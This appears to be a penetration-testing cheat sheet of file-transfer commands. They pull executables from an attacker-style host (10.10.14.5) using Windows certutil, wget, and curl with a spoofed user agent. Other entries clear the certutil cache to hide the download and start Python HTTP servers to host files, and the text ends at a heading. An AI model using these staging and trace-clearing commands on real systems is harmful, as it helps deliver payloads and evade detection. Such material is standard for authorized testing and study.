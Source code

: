 ## Download file using Windows certutil

```cmd
certutil -urlcache -split -f http://10.10.14.5/file.exe file.exe
```

## Delete certutil cache after download

```cmd
certutil -urlcache -split -f http://10.10.14.5/file.exe delete
```

## Download file using wget on Linux

```bash
wget http://10.10.14.5/file -O file
```

## Download file using curl on Linux

```bash
curl http://10.10.14.5/file -o file
```

## Download file using curl with custom user agent

```bash
curl -A "Mozilla/5.0" http://10.10.14.5/file -o file
```

## Start Python HTTP server on alternate port

```bash
python3 -m http.server 8080
python3 -m http.server 9000
python3 -m http.server 443
```

## Start Python HTTP server on specific interface

```bash
python3 -m http.server 8080 --bind 10.10.14.5
```

## Generate self-signed certificate for HTTPS server

```bash
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

## Start Python HTTPS server

